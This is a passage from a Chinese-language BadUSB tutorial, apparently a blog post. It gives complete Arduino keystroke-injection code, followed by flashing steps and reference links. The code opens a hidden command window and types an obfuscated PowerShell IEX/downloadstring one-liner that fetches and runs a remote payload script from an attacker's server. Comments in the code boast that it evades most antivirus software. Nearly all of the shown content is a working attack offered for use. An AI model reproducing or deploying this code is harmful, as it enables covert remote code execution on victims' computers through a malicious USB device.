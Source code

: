 **编写代码**

```
//由于@无法在badusb中出现和编译 于是我们简化了一下混淆 实测也能过大部分杀软
# include <Keyboard.h>
void setup() {
// putpower shell your setup code here, to run once
Keyboard.begin();//开始键盘通讯
delay(3000);//延时
Keyboard.press(KEY_LEFT_GUI);//win键
Keyboard.press('r');//r键
delay(100);
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
delay(100);
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(200);
//Keyboard.println("CMD  /q /d /f:off /v:on /k MODE con: cols=15 lines=1");  //有回显
Keyboard.println("cmd /T:01 /K "@echo  off && mode con:COLS=15 LINES=1"");   //无回显 
delay(200);
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
delay(200);
Keyboard.println("powershell.exe $a='IEX ((new-object net.webclient).downl';$b='oadstring(''vps/payload2.ps1''))';IEX($a+$b)"); //iex远程rce
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}
void loop() {
// put your main code here, to run repeatedly:
}
```

_**_**No.6**_**_

_**烧录**_

插入 badusb 添加好我们的代码，依次从点击左上角的编译和上传，从而烧录成功

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynP7r5jIJPib2JQAyPG0fWgqnYg0L15X1bEjUBXdGcfibnvy5Y10fvbTAA/640?wx_fmt=png)

烧录成功之后它会自动运行一遍

  

_**_**No.7**_**_

_**参考博客**_

https://www.bilibili.com/read/cv8101978/  

https://blog.csdn.net/azraelxuemo/article/details/106410110  
